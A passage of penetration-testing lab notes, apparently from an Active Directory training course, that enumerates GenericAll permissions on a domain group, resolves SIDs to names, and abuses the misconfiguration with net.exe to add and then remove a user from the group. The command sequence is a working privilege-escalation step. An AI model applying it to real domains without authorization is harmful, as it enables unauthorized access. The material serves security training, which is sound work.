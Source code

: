```
```

In this case, we have a total of five objects that have the GenericAll permission on the _Management Department_ object
+ To make sense of this, let's convert all the SIDs into actual names:
```
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

The first SID belongs to the _Domain Admins_ group and the GenericAll permission comes as no surprise since _Domain Admins_ have the highest privilege possible in the domain
+ What's interesting, however, is to find _stephanie_ in this list
+ Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration

This finding is significant and indicates that _stephanie_ is a powerful account
+ When we enumerated the _Management Group_, we discovered that _jen_ was its only member
+ As an experiment to show the power of misconfigured object permissions, let's try to use our permissions as _stephanie_ to add ourselves to this group with net.exe:
```
net group <GROUP> <USER> /add /domain
```
+ Example:
```
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```

Based on the output, we should now be a member of the group
+ We can verify this with **Get-NetGroup**
```
PS C:\Tools> Get-NetGroup "Management Department" | select member

member
------
{CN=jen,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```
+ This reveals that _jen_ is no longer the sole member of the group and that we have successfully added our _stephanie_ user in there as well

Now that we have abused the GenericAll permission, let's use it to clean up after ourselves by removing our user from the group:
```
net group <GROUP> <USER> /del /domain
```
+ Example:
```
PS C:\Tools> net group "Management Department" stephanie /del /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```
